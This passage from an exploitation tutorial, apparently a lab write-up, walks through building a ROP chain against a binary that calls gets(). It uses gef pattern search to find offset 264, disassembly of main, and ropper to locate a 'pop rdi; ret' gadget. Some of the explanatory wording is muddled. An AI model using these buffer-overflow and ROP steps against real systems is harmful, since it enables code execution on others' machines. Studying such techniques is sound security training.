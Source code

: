 ```bash
gef➤  x/s $rsp
0x7fffffffdcf8: "iaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaab"
# finding offset
gef➤  pattern search iaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaab
[+] Searching for 'iaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaab'
[+] Found at offset 264 (big-endian search)
# We note the offset (264 in this case)
```
{% endcode %}
{% endtab %}

{% tab title="Disassembly" %}
{% code overflow="wrap" %}
```bash
# We discovered how gets is called during the disassembly of the main  function.
   0x00000000004011fd <+39>:    call   0x4010b0 <printf@plt>
   0x0000000000401202 <+44>:    lea    rax,[rbp-0x100]
   0x0000000000401209 <+51>:    mov    rdi,rax
   0x000000000040120c <+54>:    mov    eax,0x0
   0x0000000000401211 <+59>:    call   0x4010d0 <gets@plt>
# From this, we can derive:
#• The address stored at the rbp - 0x100 is given to the rax function.
#• The rax value is then given to the rdi.
#• The eax is assigned to the 0.
#• Finally, gets function is called.

# For example:
pop rdi; ret;
# This is a gadget, in ROP terms, that can be used to pop the rdi register and can be used on the gadget itself. To make use of this we must understand the calling conventions for x86_64 architecture.
+---------------+--------------+------------------+------------------+
|  1st argument | 2nd argument | 3rd argument.... |  .... so on .... |
+---------------+--------------+------------------+------------------+
|    rdi        |	rsi    | 	rdx       |  rcx-r8-r9       |
+---------------+--------------+------------------+------------------+
# We use rdi since it is the first argument as we saw on the dissasembly of the main function.
```
{% endcode %}
{% endtab %}

{% tab title="Find ROP gadget" %}
We will use the command **ropper**. This package contains scripts that display info about files in different formats and find gadgets to build ROPs chains for different architectures(x86/x86\_64, ARM/ARM64, MIPS, PowerPC). For disassembly ropper uses the Capstone Framework.

```bash
└─$ ropper --file binary-file --search 'pop rdi; ret'
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi; ret

[INFO] File: redis-status
0x00000000004012e3: pop rdi; ret;
```
